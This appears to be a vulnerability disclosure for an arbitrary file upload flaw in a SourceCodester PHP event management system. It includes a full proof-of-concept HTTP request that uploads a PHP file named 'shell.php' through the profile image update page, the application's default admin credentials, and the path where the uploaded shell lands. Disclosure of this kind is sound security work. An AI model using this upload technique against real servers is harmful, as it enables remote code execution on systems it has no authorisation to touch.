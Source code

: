 # RCE-2

## Vulnerability Description

Arbitrary file upload vulnerability in SourceCodester [Event Management System Project in PHP with Source Code](https://www.sourcecodester.com/php/15238/event-management-system-project-php-source-code.html) allows attackers to execute arbitrary code via the file upload to add-admin.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/).

1. BUG_Author:  XuJianLin
2. vendors: [Event Management System Project in PHP with Source Code](https://www.sourcecodester.com/php/15238/event-management-system-project-php-source-code.html);
3. The program is built using the  PHP 7.3.4nts version;
4. Vulnerability location: /royal_event/update_image.php?id=2

# Vulnerability Verification

[+] Payload:

```
<?php phpinfo();?>
```

POC：

```http
POST http://localhost/royal_event/update_image.php?id=2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------272036942240946147034040939723
Content-Length: 493
Origin: http://localhost
Connection: close
Referer: http://localhost/royal_event/update_image.php?id=2
Cookie: PHPSESSID=13o927b44gh33i0a70b00sc0ac
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------272036942240946147034040939723
Content-Disposition: form-data; name="productName"

Nikhil Bhalerao
-----------------------------272036942240946147034040939723
Content-Disposition: form-data; name="productimage1"; filename="shell.php"
Content-Type: text/plain

<?php phpinfo();?>
-----------------------------272036942240946147034040939723
Content-Disposition: form-data; name="submit"


-----------------------------272036942240946147034040939723--

```

## How to verify

1.Build the vulnerability environment according to the steps provided by the source code author ;

2.login to the "Admin Panel” through the default account and password（username: ndbhalerao91@gmail.com  Password: admin）;

3.Shell Path:   **/royal_event/update_image.php?id=2**

The vulnerability lies in the "Profile - Update " function, you shuold inserts Payload when you update photo，as shown in the following figure：

​![image](assets/image-20240401102413-9l400b7.png)​

​![image](assets/image-20240401102427-ktw9pwd.png)​

​![image](assets/image-20240401102534-au2nx9s.png)​

​![image](assets/image-20240401102525-riq2785.png)​

/royal_event/assets/img/profileimages/shell.php

​![image](assets/image-20240401102359-sjxzrdm.png)​

​![image](assets/image-20240401102324-ksh6hn8.png)​
